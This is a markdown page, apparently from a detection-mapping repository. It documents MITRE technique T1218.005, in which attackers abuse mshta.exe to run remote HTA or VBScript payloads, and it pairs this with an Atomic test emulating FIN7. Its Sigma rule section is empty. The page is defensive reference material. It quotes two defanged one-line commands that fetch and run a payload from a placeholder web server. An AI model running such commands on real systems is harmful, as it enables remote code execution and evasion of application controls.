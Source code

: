
[back](../index.md)

Find sigma rule :x: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta executes VBScript to execute malicious command
## OS
  - windows


## Description:
Run a local VB script to run local user enumeration powershell command.
This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.
Upon execution, a new PowerShell windows will be opened that displays user information.


# Sigma Rule


[back](../index.md)

